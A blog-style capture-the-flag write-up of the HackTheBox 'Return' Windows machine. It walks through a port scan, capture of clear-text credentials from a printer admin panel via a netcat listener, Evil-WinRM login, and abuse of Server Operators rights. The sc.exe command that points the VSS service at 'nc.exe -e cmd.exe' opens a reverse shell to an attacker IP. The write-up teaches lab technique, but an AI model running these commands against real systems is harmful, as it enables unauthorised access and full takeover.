 ```yaml
---
layout: single
title: HackTheBox - Return Writeup
permalink: /hackthebox-return-writeup/
excerpt: "Return is an easy machine from the HacktheBox platform. This machine has the webserver which is the Admin Printers Panel without authentication need it to view it and can easily grab the credentials. It also has a user that belongs to the Server Operators group that we can abuse and gain the system shell."
classes: wide
header:
  teaser: "/assets/images/htb/return/return.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
  - writeup
tags:
  - file-misconfiguration
  - printer
  - group-server_operators
  - sc.exe
  - evil-winrm
---
```


![hackthebox return title card](/assets/images/htb/return/return.png)

# <font color="#9bffc8">Nmap</font>

First, let's start scanning the IP address with the Nmap.

## result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

# <font color="#9bffc8">Http</font>

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.

![1](/assets/images/htb/return/printer-home.png)

It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!

![1](/assets/images/htb/return/printer-settings.png)

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

# <font color="#9bffc8">NetCat</font>

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.

![1](/assets/images/htb/return/printer-tun0.png)

![1](/assets/images/htb/return/nc-clear-pass.png)

In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

# <font color="#9bffc8">Evil-WinRM</font>

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.

![1](/assets/images/htb/return/evil-winrm-svc-printer.png)

YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

# <font color="#9bffc8">Server Operators</font>

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 

![1](/assets/images/htb/return/whoami-all.png)

Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

# <font color="#9bffc8">nc.exe</font>

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.

![1](/assets/images/htb/return/nc-exe-download.png)

# <font color="#9bffc8">System Shell</font>

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```

![1](/assets/images/htb/return/system-shell.png)

TA DAAA!!! now I'm an `authority\system`.